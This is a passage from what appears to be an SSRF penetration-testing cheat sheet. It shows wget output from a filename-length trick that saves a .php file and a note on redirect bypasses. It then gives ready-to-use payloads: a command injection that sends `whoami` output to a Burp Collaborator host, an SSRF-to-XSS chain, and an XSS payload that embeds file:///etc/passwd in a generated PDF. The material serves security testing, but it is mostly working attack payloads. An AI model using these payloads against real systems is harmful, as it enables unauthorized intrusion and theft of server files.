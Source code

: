 ```bash
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s      

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]


```

Note that another option you may be thinking of to bypass this check is to make the HTTP server redirect to a different file, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This won't work unless wget is being used with the parameter --trust-server-names because wget will download the redirected page with the name of the file indicated in the original URL.

* **Command Injection**

It might be worth trying a payload like:

```html
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`

```

# Blind SSRF

* **Time based SSRF**

Checking the time of the responses from the server it might be possible to know if a resource exists or not (maybe it takes more time accessing an existing resource than accessing one that doesn't exist)

## SSRF to XSS
```html
http://brutelogic.com.br/poc.svg      //simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=      //simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg

```

## SSRF from XSS

**Using an iframe**

The content of the file will be integrated inside the PDF as an image or text
```javascript
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>

```
